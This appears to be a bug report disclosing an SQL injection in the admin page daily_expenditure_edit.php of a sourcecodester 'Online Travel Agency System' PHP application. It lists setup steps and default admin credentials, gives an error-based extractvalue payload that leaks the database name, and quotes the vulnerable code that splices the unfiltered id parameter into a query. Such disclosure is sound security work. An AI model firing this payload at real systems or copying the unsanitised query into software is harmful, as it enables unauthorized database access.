 # [Online Travel Agency System-SQL Injection-daily_expenditure_edit.php]

## Basic Information

**[Bug Reporter]:**  DililLearngent

**[Application Vendors]:**  https://www.sourcecodester.com/online-travel-agency-system-using-php.html

**[Test Environment]:**  windows10+apache+php7.0

**[Install]:**

1. start **Apache** and **MySQL**.

2. **Extract** the downloaded source code **zip** file.

3. **Copy** the extracted source code folder and **paste** it into the **www directory**.

4. **Create** a **new database** naming **"travel_agency"**.

5. **Import** the provided **SQL** file. The file is known as **"travel_agency.sql"** located inside the extracted source code folder.

6. **Browse** the **Online Travel Agency System** in a **browser**. i.e. **http://localhost/Travel**

   **Admin Access Information:**

   Username: **admin**
   Password: **admin**

## Bug Information

**[Vulnerability type]:** SQL Injection

**[Vulnerability Url]:** `http://10.142.221.111/Travel/admin/daily_expenditure_edit.php?id=1`    

**[Vulnerability Location]:** Travel/admin/daily_expenditure_edit.php

**[Vulnerability Test]:**

1. payload:`id=1%20and%20extractvalue(1,concat(0x7e,(select%20database()),0x7e))`

   ![](../../img/20230428164149.png)

   The database name was obtained from the above payload execution.

**[code analysis]:**

Travel/admin/daily_expenditure_edit.php

```php
<?php
$sql="select*from daily_expenditure where id=$_GET[id]";
$result=mysqli_query($con,$sql) or die(mysqli_error($con));
while($row=mysqli_fetch_array($result))
{
	$id =$row["id"];
	$voucher_no=$row["voucher_no"];
	$title=$row["title"];
	$description=$row["description"];
	$amout=$row["amount"];
	$date=$row["date"];
	$inserted_by=$row["inserted_by"];	 	 	 	 	
}
?>
```

The GET parameter `id` is obtained without any filtering and spliced directly into the sql execution statement, and display the errors returned by the database execution back to the front-end page.

